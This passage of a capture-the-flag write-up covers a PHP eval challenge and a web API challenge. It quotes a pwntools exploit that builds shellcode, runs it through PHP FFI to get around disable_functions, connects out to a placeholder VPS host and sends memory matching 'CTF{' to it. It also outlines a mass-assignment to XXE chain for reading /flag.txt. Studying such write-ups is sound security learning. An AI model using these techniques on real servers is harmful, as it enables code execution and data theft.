 There is `eval` that can execute any code, but there are a lot of things in `disable_functions`.

I didn't understand the final solution very well. It seems that you need to write some shell code and use a function that can be used. Here is the solution I saw in [discord](https://discord.com/channels/656258740252704788/978311401439363112/985623102190940240) (by Tony_Bamanaboni):

``` py
from pwn import *
from binascii import hexlify
context.arch = "amd64"
payload = "addr: .quad 0\nnop\nnop\nnop\nnop\nnop"
payload += """
call $+5
pop r13
and r13, -4096
mov r13, [r13]
"""
payload += shellcraft.amd64.linux.connect("VPSIP", 6666)
payload += shellcraft.amd64.linux.egghunter(b'CTF{')
payload += """mov rsi, rdi
mov rdi, rbp
mov rdx, 50
mov rax, 1
syscall
ret
"""
payload = hexlify(asm(payload)).decode()
php = '''
$pl=hex2bin("%s");
$l=FFI::cdef("char* mmap(int,int,int,int,int,int);void alarm(int);void signal(int,void*);","libc.so.6");
$p=$l->mmap(0,0x1000,7,0x21,-1,0);
$p2=$l->environ;
FFI::memcpy($p,FFI::addr($p2),8);
for($idx=8;$idx<strlen($pl);$idx++){$p[$idx]=$pl[$idx];}
$l->signal(14,$p+8);
$l->alarm(5);
''' % payload
print(php.replace('\n', '').replace('+', '%2b'))
```

## Web API intended(4 solves)

This question gives you an API document that allows you to register, log in, modify data, and create some data, etc.

When I was working on it, I saw that there was a `/jwk` URL in the JWT, and when I tried to change it to something else, I found that I didn't receive a request, so I went to play other questions first.

From the discussion on discord afterwards, the solution is that there is a mass assignment bug in changing user data, which can change yourself to `is_admin: true`, and then there is XML that can be eaten by other endpoints, so XXE and read `/flag.txt`, and it's over.
